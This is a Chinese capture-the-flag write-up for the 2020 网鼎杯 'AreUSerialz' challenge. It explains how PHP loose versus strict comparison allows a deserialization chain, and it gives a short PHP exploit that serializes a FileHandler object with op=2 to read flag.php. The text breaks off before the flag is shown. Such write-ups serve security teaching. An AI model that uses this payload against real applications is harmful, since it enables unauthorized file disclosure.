

# [网鼎杯 2020 青龙组]AreUSerialz

## Tag

PHP 弱比较强比较+反序列化

***

## Writeup

观察源码，最终的目标链应该是 `unserialize()->__destruct()->process()->read()+output()`，反序列化的本质就是绕过 `__construct` 函数所以不用管，我们注意到 `__destruct` 里面有一个判断，如果 op 强等于 "2" 就会强制改为 "1" 并再次调用 process，但是里面要想进入 read 的判断是 op 弱等于 "2"，因此我们只需要构造数字 2 即可，exp 如下：

```php
<?php
class FileHandler {
    public $op = 2;
    public $filename = "flag.php";
    public $content = "";
}

$a = new FileHandler();
echo serialize($a);
?>
```

得到 flag：

